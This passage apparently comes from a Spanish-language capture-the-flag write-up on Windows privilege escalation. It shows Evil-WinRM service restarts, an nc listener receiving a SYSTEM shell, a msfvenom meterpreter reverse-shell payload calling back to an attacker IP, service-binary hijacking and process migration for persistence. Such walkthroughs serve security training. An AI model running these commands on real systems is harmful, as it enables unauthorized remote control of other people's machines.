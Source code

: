 Y paramos e iniciamos el servicio:
```powershell
Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

Y observamos que en nuestro nc se ha establecido conexión:
```bash
$ nc -lvnp 4444                                                                                                                                                        
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 53956
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Esa shell morirá en poco tiempo por lo que podemos usar msfvenom para generar una shell de meterpreter en un archivo para el host remoto de Windows:
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe > shell-x86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Y la subimos igual que antes con upload.
Y nos vamos a meterpreter con msfconsole.

![image](https://github.com/user-attachments/assets/c2469f7c-79a9-4f12-bb3e-215ba9e6bcc9)
![image](https://github.com/user-attachments/assets/faa9a9b1-0f0d-45ac-9323-75dee1da4a70)

Y ahora modificamos el servicio binario para obtener nuestra shell con la que hemos subido:
![image](https://github.com/user-attachments/assets/9a394d43-c88b-4fb7-aa44-59b9f5594bda)

![image](https://github.com/user-attachments/assets/c3bca298-8938-4418-a7e9-2a94365cd920)

Con migrate conseguimos persistencia al cambiar a un proceso que no suele cerrarse y siempre está activo.
![image](https://github.com/user-attachments/assets/3b1762ee-0360-400f-998b-a5c2a3d581c7)

![image](https://github.com/user-attachments/assets/b31a61dc-7834-4c32-a194-f7d88eb0d6cc)



